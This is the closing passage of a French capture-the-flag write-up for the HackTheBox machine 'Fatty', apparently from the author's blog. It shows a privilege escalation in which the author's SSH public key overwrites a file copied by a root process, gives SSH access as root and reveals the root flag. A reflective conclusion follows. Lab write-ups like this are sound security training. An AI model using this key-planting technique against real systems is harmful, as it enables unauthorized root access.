 ```bash
echo "ssh-rsa AAAAB <REDACTED> vHXw== driikolu@Terweb" > id_rsa.pub
cp id_rsa.pub /opt/fatty/tar/logs.tar
```

Là encore on attend le scp puis sur notre machine on fait

```bash
ssh root@10.10.10.174
```

Et nous avons un accès SSH direct en root. Il ne nous reste plus qu'à lire le *root.txt*.

```bash
cat root.txt 
	ee982fa19b413415391ed4a17b2bd9c7
```

# Conclusion

J'ai trouvé cette box très intéréssante, c'était ma première de niveau "Insane" et je pense que celui-ci n'est pas volé. J'ai appris quelques trucs en la faisant (notamment sur CommonsCollections) et ça m'a permis de me remettre légèrement au Java.

Par contre, si ça n'avait pas été dans un contexte CTF/HackTheBox je pense que je n'aurais jamais trouvé la vulnérabilité de désérialisation. Dans ce genre de contexte quasiment tout a un sens et il existait forcément un chemin vers un accès serveur. En cas réel j'aurais probablement mis ça de côté.

Même si les clients lourds se font de plus en plus rare dans l'informatique, j'ai trouvé ça réaliste à ce niveau avec peut-être un bémol sur la *privesc* qui restait sympathique.





---

> Auteur: [Driikolu](https://x.com/driikolu)  
> URL: https://driikolu.fr/posts/fatty-wu/  

